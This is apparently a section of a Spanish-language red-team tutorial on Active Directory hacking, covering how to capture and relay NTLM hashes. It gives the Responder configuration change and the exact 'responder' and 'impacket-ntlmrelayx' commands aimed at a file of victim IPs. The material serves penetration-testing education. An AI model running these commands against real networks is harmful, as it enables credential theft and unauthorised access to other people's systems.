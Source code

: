 ### 1. Obtener el Hash NTLM

Para obtener el Hash NTLM lo primero que tenemos que hacer es configurar nuestro envenenador de paquetes, el **responder**.

Como hemos visto en el artículo de [SMB Relay](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/smb-relay), **responder** viene configurado por defecto para envenenar paquetes SMB pero ahora no queremos que haga eso por lo que hay que modificarlo para que quede de la siguiente manera \(Desactivamos SMB y HTTP\):

![Configuraci&#xF3;n de responder.conf.](../../.gitbook/assets/responder4%20%281%29.png)

Debemos preparar un documento con las IPs de los objetivos para el relay:

`echo "IP_VICTIMA" > targets.txt`

Una vez tenemos el responder configurado debemos correr a la vez el **responder** y el **impacket-ntlmrelayx**.

`sudo responder -i eth0 -rwd`

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

{% hint style="warning" %}
En los sistemas más nuevos es necesario utilizar:  
`impacket-ntlmrelayx -tf fichero.txt -smb2support`  
Ya que trabajan con la versión 2 del protocolo smb y sin esto no obtendremos nada.
{% endhint %}
